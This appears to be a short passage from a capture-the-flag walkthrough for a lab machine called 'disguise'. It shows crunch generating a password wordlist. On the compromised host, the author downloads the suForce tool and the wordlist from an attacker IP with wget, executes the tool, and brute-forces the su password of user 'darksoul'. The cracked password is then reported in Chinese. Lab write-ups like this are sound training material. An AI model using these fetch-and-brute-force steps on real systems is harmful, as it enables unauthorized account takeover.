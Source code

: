 ```
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ crunch 3 3 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789?!@#$%^&*()' \ | sed 's/^/Str0ngPassw0d1/' > pass
Crunch will now generate the following amount of data: 1556068 bytes
1 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 389017
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ cat pass | wc -l                                                               389017
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ tac pass | sponge pass
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ cat pass | wc -l
389017
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ head -n 10 pass
Str0ngPassw0d1)))
Str0ngPassw0d1))(
Str0ngPassw0d1))*
Str0ngPassw0d1))&
Str0ngPassw0d1))^
Str0ngPassw0d1))%
Str0ngPassw0d1))$
Str0ngPassw0d1))#
Str0ngPassw0d1))@
Str0ngPassw0d1))!
```

```bash
www-data@disguise:/tmp$ wget 192.168.205.206/suForce
www-data@disguise:/tmp$ wget 192.168.205.206/pass
www-data@disguise:/tmp$ chmod +x suForce
www-data@disguise:/tmp$ ./suForce -u darksoul -w pass
            _____
 ___ _   _ |  ___|__  _ __ ___ ___
/ __| | | || |_ / _ \| '__/ __/ _ \
\__ \ |_| ||  _| (_) | | | (_|  __/
|___/\__,_||_|  \___/|_|  \___\___|
───────────────────────────────────
 code: d4t4s3c     version: v1.0.0
───────────────────────────────────
🎯 Username | darksoul
📖 Wordlist | pass
🔎 Status   | 54031/389017/13%/Str0ngPassw0d1??? 
💥 Password | Str0ngPassw0d1???                
───────────────────────────────────
```

爆破成功，`darksoul` 的密码是 `Str0ngPassw0d1???`
切换用户。
